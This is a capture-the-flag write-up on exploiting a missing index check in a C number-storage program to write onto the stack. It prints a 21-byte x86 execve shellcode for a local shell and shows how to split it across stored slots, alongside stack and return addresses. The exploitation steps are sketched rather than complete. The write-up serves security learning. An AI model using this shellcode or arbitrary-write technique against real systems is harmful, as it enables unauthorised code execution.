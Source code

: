 The program is a number storage service. We can store numbers, read the stored numbers, or quit. Looking at the [source code](../source.c) in more detail, we notice that there is no check of the index where we save our numbers in the store_number() function. Therefore, we can write almost anywhere we want on the stack. We'll be able to exploit that, but we'll have to deal with some limitations: 

* First of all, concerning the registration of numbers in the dataset:
    - numbers are stored at `index * 4`
    - `index % 3` must not be equal to 0
    - `number >> 24` must not be equal to 183 

* The program has been compiled with the `-fstack-protector` flag, meaning that the return address of the program's main() function is protected with a [stack canary](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) and cannot be overwritten.

* At the beginning of the program, `av` and `env` are cleared and therefore cannot be used to store shellcode in memory. 

That being said, we can always exploit the return addresses of the store_number() or read_number() functions, or the addresses in the Global Offset Table (GOT) of the libc functions called in the program. We can also manage to save a shellcode on the stack with the store_number() function, or make a ret2libc attack like in level04.






Let's start by finding the buffer address in the store_number() function:

esp: 0xffffd520
buf dans main: 0x24(%esp) <=> 0xffffd544

"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"



index N     : "\x31\xc9\xf7\xe1"
index N+1   : "\xb0\x0b" + jump
index N+3   : "\x51\x68\x2f\x2f"
index N+4   : "\x73\x68" + jump
index N+6   : "\x68\x2f\x62\x69"
index N+7   : "\x6e\x89" + jump
index N+9   : "\xe3\xcd\x80"



buf:                    0xffffd544

eip in read_number():   0x8048930




We can now reach the next level with the command `su level08` and fill in the flag found as a password.